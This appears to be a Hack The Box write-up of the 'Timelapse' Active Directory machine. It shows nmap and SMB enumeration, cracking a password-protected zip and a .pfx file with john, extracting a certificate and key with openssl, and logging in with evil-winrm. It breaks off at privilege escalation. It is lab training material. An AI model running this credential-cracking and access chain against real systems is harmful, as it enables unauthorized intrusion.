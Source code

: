 ```yaml
---
layout: post
title: "HTB: Timelapse"
---
```


Timelapse, an easy-rated Active Directory machine from Hack The Box, starts by finding a key on an SMB share. After cracking it open and authenticationg via Evil-WinRM, we’ll find credentials in the PowerShell history file for the next user. That useris a member of **LAPS_Readers** group, which allows us to pull out local administrator passwords. With that, we’ll get the administrator password and use Evil-WinRM to get a shell.

# Recon

## nmap

As always, start with nmap scan:
```powershell
sudo nmap -sC -sV -p- -v -oA nmap_scan/nmap_results 10.129.116.41
```
nmap finds 18 open TCP ports:
![nmap](/Content/Writeups/HTB-Timelapse/img/nmap.PNG)

The combination of ports (Kerberos + LDAP + DNS + SMB) suggest this should be a domain controller. Plus there is the name on cert on 5986 (dc01.timelapse.htb).

## SMB - TCP 445

Take a look at SMB, first use `netexec` or `smbclient` and find if null session is allowed.

```powershell
netexec smb 10.129.116.41 --shares -u 'guest' -p ''
```

![SMB](/Content/Writeups/HTB-Timelapse/img/smb1.png)

It is and we have 2 readable shares.
Next use `smbclient` to tak a closer look inside 

```powershell
smbclient -N //10.129.116.41/Shares
```
![SMB2](/Content/Writeups/HTB-Timelapse/img/smb2.png)

There is an interesting file in a **Shares** share, **winrm_backup.zip**. Download it and take a look at it on out machine.

![SMB3](/Content/Writeups/HTB-Timelapse/img/smb3.png)

There were few more files in the **\helpdesk** folder, but there were no use at the end.

# Shell as legacyy

## Exploring winrm_backup.zip

The .zip file we downloaded is password protected. We have to get good old **john** to help there.
Use `zip2john` to get a hash and crack it.

```powershell
zip2john winrm_backup.zip > ziphash.txt
```

![zip_hash](/Content/Writeups/HTB-Timelapse/img/zip_hash.png)

```powershell
john ziphash.txt --wordlist=~/Tools/rockyou.txt
```

![zip_hash2](/Content/Writeups/HTB-Timelapse/img/zip_hash2.png)

And we have out first password! **supremelegacy**

The zip contains single file: **legacyy_dev_auth.pfx**

![unzip](/Content/Writeups/HTB-Timelapse/img/unzip.png)

## Extracting certificate and key from a .pfx file

The .pfx file, which is in a PKCS#12 format, contains the SSL certificate (public keys) and the corresponding private keys. Sometimes, you might have to import the certificate and private keys separately in an unencrypted plain text format to use it on another system. This topic provides instructions on how to convert the .pfx file to .crt and .key files. [More here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file).

When we try to extract ... there is a password again, and unfortunatelly not supremelegacy again :)

![pfx1](/Content/Writeups/HTB-Timelapse/img/pfx1.png)

We have to reach for `john` again, this time `pfx2john`

```powershell
pfx2john legacyy_dev_auth.pfx > pfx_hash
```
![pfx2](/Content/Writeups/HTB-Timelapse/img/pfx2.png)

```powershell
john pfx_hash --wordlist=~/Tools/rockyou.txt
```

![pfx3](/Content/Writeups/HTB-Timelapse/img/pfx3.png)

And we get second password **thuglegacy**

With that we can try to extract cert and key again:

```powershell
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out pfx_key.key
```

![key1](/Content/Writeups/HTB-Timelapse/img/key1.png)

It will require you to input PEM pass phrase, you can put whatever you want there (at least 4 chars)

```powershell
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx_cert.crt
```

![key2](/Content/Writeups/HTB-Timelapse/img/key2.png)

## Logging in

We now have everything we need to finally get into the machine.

Use `evil-winrm` and freshly extracted `pfx_key.key` and ` pfx_cert.crt` to get in.

*   `-S` Enable SSL, because its connecting to 5986;
*   `-c` pfx_cert.crt - provide the public key certificate
*   `-k` pfx_key.key - provide the private key
*   `-i` IP - host to connect to

```powershell
evil-winrm -i 10.129.116.41 -k pfx_key.key -c pfx_cert.crt -S
```

![winrm1](/Content/Writeups/HTB-Timelapse/img/winrm1.png)

And we can get our user flag

![user_flag](/Content/Writeups/HTB-Timelapse/img/user_flag.png)

TBC......

# Privilege Escalation

